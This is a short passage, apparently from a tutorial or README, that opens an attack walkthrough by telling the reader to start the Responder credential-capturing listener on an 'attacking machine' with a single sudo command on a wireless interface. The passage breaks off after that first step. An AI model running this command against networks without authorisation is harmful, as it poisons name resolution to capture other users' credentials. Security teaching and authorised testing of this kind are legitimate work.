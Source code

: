 First of all on the attacking machine start your responder listener with these command {You can run `sudo responder --help` to see what each and every switch does} :

```shell
sudo responder -I wlan0 -dwPv
```

